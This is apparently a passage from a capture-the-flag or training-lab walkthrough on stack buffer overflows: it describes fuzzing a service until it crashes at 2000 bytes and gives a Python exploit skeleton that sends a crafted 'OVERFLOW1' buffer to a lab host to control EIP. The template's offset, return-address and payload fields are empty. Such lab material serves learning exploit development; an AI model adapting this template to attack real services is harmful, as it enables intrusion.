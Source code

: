 ### What does this script do?

* This fuzzer will send an increasingly long string of "A's"
* If the fuzzer is able to crash the program with that set of strings, the fuzzer will exit with an error message
* <mark style="color:yellow;">MAKE A NOTE OF THE LARGEST NUMBER OF BYTES THAT WERE SENT</mark>

### Running the script

<figure><img src="../../.gitbook/assets/image (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

* We get an error message that the <mark style="color:yellow;">fuzzing crashed at 2000 bytes</mark>

## Crash Replication and Controlling EIP

* Create a file on Kali called <mark style="color:yellow;">01exploit.py</mark> with the following contents:

```
import socket

ip = "10.10.253.98"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
```